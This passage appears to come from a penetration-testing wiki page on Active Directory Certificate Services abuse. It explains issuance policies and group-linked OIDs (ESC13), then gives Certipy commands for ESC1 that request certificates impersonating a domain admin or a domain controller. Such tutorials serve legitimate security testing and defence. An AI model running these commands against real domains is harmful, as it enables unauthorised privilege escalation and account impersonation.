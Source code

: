 If some certificate authentication issues are encountered in an Active Directory, [Microsoft has officially suggested](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16) to set the `CertificateMappingMethods` value to `0x1f` (old value).

**Issuance policies**

It is possible to apply issuance policies to certificate templates. This takes the form of a certificate extension, and is stored as an OID (object identifier) in the `msPKI-Certificate-Policy` attribute of the template. When the CA issues the certificate, the policy is added to the "Certificate Policies" attribute of the certificate. A template stores required policies in the `msPKI-RA-Policies` attribute.

An issuance policy can be set up by a company, for example, for access control: a system can require a user to present a certificate with a given policy in order to guarantee that the system only grants access to authorised users. Issuing policies are `msPKI-Enterprise-Oid` objects found in the PKI OID container (`CN=OID,CN=Public Key Services,CN=Services`, in the Configuration Naming Context).

This object has an `msDS-OIDToGroupLink` attribute which allows a policy to be linked to an AD group so that a system can authorise a user presenting the certificate as if he were a member of this group. As explained by [Jonas Bülow Knudsen](https://twitter.com/Jonas_B_K) in [his ADCS ESC13 article](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53).

> If you perform client authentication with the certificate, then you will receive an access token specifying the membership of this group.
>
> ([specterops.io](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53))

## Practice

### Template allows SAN (ESC1)

When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios.

Once a vulnerable template is found, a request shall be made to obtain a certificate.

```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

{% hint style="warning" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}
